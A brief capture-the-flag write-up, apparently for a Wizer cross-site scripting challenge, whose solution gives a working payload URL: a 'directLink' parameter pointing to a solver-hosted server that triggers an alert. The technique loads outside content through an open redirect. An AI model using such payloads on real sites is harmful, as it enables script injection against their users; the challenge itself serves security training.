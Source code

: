 # Menu Level #2

Inject an alert("Wizer").

https://chal51-diou6.vercel.app/

# Solution

It's essentially an open relay.. Have to host a server that triggers an alert.

Working payload: `https://chal51-diou6.vercel.app/?directLink=https://rtchat-pentest.onrender.com/`